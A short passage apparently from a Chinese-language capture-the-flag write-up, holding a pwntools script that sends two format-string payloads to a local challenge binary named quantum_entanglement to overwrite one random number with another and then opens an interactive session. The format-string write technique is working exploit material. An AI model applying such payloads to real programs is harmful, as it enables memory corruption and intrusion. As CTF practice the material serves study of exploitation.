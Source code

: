     -   把第二个随机数写入第一个随机数即可

>   payload如下
```
from pwn import *
p = process('./quantum_entanglement')

# 将第一个随机数的地址写入一个地址的值中
payload1 = b'%*19$c%80$hn'
# 把第二个随机数写入第一个随机数中
payload2 = b'%*18$c%124$n'

p.recvuntil('FirstName:')
p.sendline(payload1)
p.recvuntil('LastName:')
p.sendline(payload2)

p.recv()
p.interactive()
```